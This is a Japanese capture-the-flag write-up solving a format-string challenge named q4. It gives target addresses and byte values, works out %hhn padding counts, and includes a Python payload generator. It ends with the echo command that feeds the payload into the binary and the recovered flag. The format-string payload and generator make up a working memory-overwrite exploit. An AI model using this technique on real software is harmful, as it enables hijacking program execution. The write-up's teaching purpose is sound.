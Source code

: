 変更すべきアドレスと値の変換表は次の通りです。
 - `0x80499e0`: `0x91` (`145`)
 - `0x80499e1`: `0x86` (`134`)
 - `0x80499e2`: `0x04` (`4`)
 - `0x80499e3`: `0x08` (`8`)

入力すべき文字列`アドレス1アドレス2アドレス3アドレス4値1値2値3値4` における`値1~値4`を求めます。

- 値1: `出力済みのバイト数 == アドレス1からアドレス4までの出力バイト数 == 4 * 4 == 16`なので、`145`まで`145-16=129`必要。つまり`%129c%6$hhn`
- 値2: `出力済みのバイト数 == 145`なので、`134`まで`134-145=-11`必要。つまり`%245%7$hhn`
    - 考慮される出力バイトは下位8bitまでしか評価されないので任意に256を追加して良いです(`256-11=245`)。
- 値3: `出力済みのバイト数 == 134`なので、`4`まで`4-134=-130`必要。つまり`%126%8$hhn`
- 値4: `出力済みのバイト数 == 4`なので、`8`まで`8-4=4`必要。つまり`%4%9$hhn`

よって入力すべき文字列は次の通りです。

`\xe0\x99\x04\x08\xe1\x99\x04\x08\xe2\x99\x04\x08\xe3\x99\x04\x08%129c%6$hhn%245c%7$hhn%126c%8$hhn%4c%9$hhn`

### プログラム

```python
#!/usr/bin/env python3
start_address = 0x080499e0
values = '08048691'
number = 6

values = [values[i:i+2] for i in range(0, len(values), 2)]
values.reverse() # little endian
output = ''
byte_counter = 0

for i in range(len(values)):
    addr = f'{start_address+i:08x}'
    addrs = [addr[j:j+2] for j in range(0, len(addr), 2)]
    addrs.reverse()
    byte_counter += len(addrs)
    output += ''.join([f'\\x{a}' for a in addrs])

p_value = byte_counter
for i in range(len(values)):
    value = int(values[i], 16)
    number_of_char = value - p_value
    if number_of_char < 0: number_of_char += 256
    output += f'%{number_of_char}c%{number}$hhn'
    number += 1
    p_value = value
print(output)
```

### 結果

これをq4に流し込んでやると良いです。

```bash
echo -e '\xe0\x99\x04\x08\xe1\x99\x04\x08\xe2\x99\x04\x08\xe3\x99\x04\x08%129c%6$hhn%245c%7$hhn%126c%8$hhn%4c%9$hhn'|./q4
```

FLAG 
-----
`FLAG_nwW6eP503Q3QI0zw`
